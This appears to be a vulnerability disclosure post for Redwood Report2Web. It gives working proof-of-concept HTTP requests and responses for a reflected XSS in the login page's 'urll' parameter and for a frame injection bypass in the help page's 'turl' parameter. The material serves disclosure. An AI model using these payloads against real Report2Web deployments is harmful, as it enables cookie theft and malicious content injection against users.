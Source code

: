 ```yaml
---
layout: post
title: Redwood Report2Web XSS and Frame injection
categories: cve
---
```


## Report2Web Login Panel XSS
The value of the `urll` parameter is getting reflected without an sanitization, allowing a remote attacker to inject javascript code to the victim's browser.

Request:
```
GET /r2w/singIn.do?urll=%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: [HOST]
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=F291E04B316ED2DF72623ACEA8D952CA; r2wctg=3
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

Response:
```
...
<form name="form" action="signIn.do" method="post" onsubmit="return handleSubmit(this);">
 <input type="hidden" name="id" value="" />
 <input type="hidden" name="language" value="en" />
 <input type="hidden" name="urll" value=""><script>alert(1)</script>" />
 
<div class="outer">
...
```

## Report2Web Online Help Frame Injection
The `turl` parameter takes a local path as input and diplays it's content inside a frame, e.g. `?turl=/local/path/doc.html`. You can bypass the protection by using `\/hostname.tld` which the browser translates to `//hostname.tld` and then to `https://example.com`, loading a malicious website inside the frame, leading to vulnerabilities like content injection and XSS.

Request:
```
GET /r2w/help/Online_Help/NetHelp/default.htm?turl=\/example.com HTTP/1.1
Host: [HOST]
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

Response:
```
...
<frame id="right" name="right" title="Topic text" src="\/example.com">
...
```